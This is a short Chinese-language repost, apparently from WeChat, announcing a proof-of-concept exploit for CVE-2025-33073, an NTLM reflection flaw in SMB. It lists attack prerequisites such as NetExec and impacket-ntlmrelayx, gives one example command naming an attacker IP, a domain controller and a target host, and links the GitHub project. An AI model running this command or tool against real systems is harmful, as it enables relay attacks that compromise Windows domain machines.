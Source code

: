 #  CVE-2025-33073 针对 NTLM 反射 SMB 缺陷的 PoC 漏洞  
 Ots安全   2025-06-14 05:36  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
所有荣誉归功于官方研究：  
  
https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025  
  
先决条件  
  
操作系统：Kali Linux（已预装大多数软件包）。  
- NetExec（NXC）- https://github.com/Pennyw0rth/NetExec  
  
- impacket-ntlmrelayx  
  
- dnstool.py（包含在 repo 中）  
  
- xterm  
  
示例用法  
  
```
python3 CVE-2025-33073.py -u 'wintastic.local\mathijs' -p 'password' --attacker-ip 192.168.178.49 --dns-ip 192.168.178.138 --dc-fqdn DC01.wintastic.local --target CLIENT01.wintastic.local --target-ip 192.168.178.65
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadyqXG7lm1lAa9cAe0DiaLbRrqGMxFlzibRWQicjGCpgeBtKwUVlGXXjfsbt5RqDGpleHgYzUbReOpPA/640?wx_fmt=png&from=appmsg "")  
  
xterm 允许使用鼠标中键进行复制和粘贴。  
  
关于所使用的强制转换的更多信息：  
  
请注意，这只会直接影响你尝试攻击的主机。例如，如果 DC 是 Windows Server 2022，而你尝试攻击的客户端是 Windows 10 机器，那么攻击仍然有效！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadyqXG7lm1lAa9cAe0DiaLbRyUu0CiaU5PbnzvxSR6WrnTBAvjDibGTibsbMGWXZpuJibMa2ZZaMCCJcxw/640?wx_fmt=png&from=appmsg "")  
  
项目地址：  
  
https://github.com/mverschu/CVE-2025-33073?tab=readme-ov-file  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
